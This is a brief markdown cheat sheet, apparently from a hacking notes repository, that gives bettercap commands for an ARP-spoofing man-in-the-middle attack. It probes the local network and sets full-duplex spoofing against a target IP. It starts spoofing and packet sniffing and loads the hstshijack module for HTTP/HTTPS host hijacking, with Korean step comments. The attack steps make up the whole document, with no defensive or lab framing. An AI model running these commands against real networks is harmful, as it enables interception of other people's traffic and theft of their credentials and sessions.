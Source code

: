 # hacking ARP Spoofing bettercap

```sh
bettercap -iface eth0

net.probe on
net.show

set arp.spoof.fullduplex true
set arp.spoof.targets [target ip]

arp.spoof on # ARP Spoofing 시작
net.sniff on # 패킷 스니핑 시작

hstshijack/hstshijack # HTTP Host Hijacking
```
